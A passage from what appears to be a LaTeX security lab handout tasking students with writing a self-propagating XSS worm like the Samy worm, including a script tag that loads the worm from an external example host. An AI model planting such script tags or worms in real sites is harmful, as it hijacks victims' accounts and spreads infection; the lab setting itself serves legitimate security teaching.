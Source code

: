 To become a real worm, the malicious JavaScript program should be able to propagate itself.
Namely, whenever some people view an infected profile, 
not only will their profiles be modified, the worm will also be 
propagated to their profiles, further affecting others who view these newly infected profiles.
This way, the more people view the infected profiles, the faster the worm can propagate. 
This is exactly the same mechanism used by the Samy Worm: 
within just 20 hours of its October 4, 2005 release, over one million users 
were affected, making Samy one of the fastest spreading viruses of all time.
The JavaScript code that can achieve this is called 
a {\em self-propagating cross-site scripting worm}. In this task, you need to 
implement such a worm, which not only modifies the victim's profile and adds the user
``Samy'' as a friend, but also add a copy of the worm itself to the victim's profile, so the
victim is turned into an attacker.


To achieve self-propagation, when the malicious JavaScript modifies the victim's profile,
it should copy itself to the victim's profile. There are several 
approaches to achieve this, and we will discuss two common approaches.

\paragraph{Link Approach:} If the worm is included using the {\tt src} attribute in the {\tt <script>} tag,
writing self-propagating worms is much easier. 
We have discussed the {\tt src} attribute in Task 1, and an example
is given below. The worm can simply copy the following
{\tt <script>} tag to the victim's profile, essentially
infecting the profile with the same worm.

\begin{lstlisting}
<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>
\end{lstlisting} 

\paragraph{DOM Approach:} If the entire JavaScript program (i.e., the worm) is 
    embedded in the infected profile, 
    to propagate the worm to another profile, the worm code can use
    DOM APIs to retrieve a copy of itself from the web page.
    An example of using DOM APIs is given below. This code
    gets a copy of itself, and displays it in an alert window:

